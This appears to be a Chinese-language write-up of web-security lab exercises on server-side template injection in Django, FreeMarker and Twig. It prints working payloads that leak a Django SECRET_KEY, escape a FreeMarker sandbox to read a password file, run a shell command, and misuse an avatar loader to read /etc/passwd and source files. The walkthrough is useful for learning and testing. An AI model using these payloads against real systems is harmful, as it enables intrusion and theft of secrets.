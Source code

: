 这里需要url编码。

#### 5. Server-side template injection with information disclosure via user-supplied objects

输入`{{7*7}}`，报错，说是`django`引擎。

```django
{%debug%}
{{settings.SECRET_KEY}}
```

#### 6. Server-side template injection in a sandboxed environment

报错说是：`freemarker`.

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

得到了：

```
51 111 103 55 109 49 97 121 52 111 111 108 119 118 97 113 110 113 97 55
```

然后翻译过来是：

```
3og7m1ay4oolwvaqnqa7
```

#### 7. Server-side template injection with a custom exploit

去疯狂试错：`1*1}}{%25+import+os%25}{{os.system("ls")}}`

我一开始以为是python环境，然后报错，说是php的Twig。

上传了一个不合规的图片，返回了错误信息：

```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/octet-stream in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/aa.ss', 'application/oct...')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

发现这个setAvatar可以加载头像，第一个参数是路径，第二个参数是MIME类型。

于是用`blog-post-author-display=user.setAvatar('/etc/passwd','image/jpeg')`，然后将图片下载下来，看到了文件。

现在去下载`/home/carlos/User.php`文件。

```php
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
```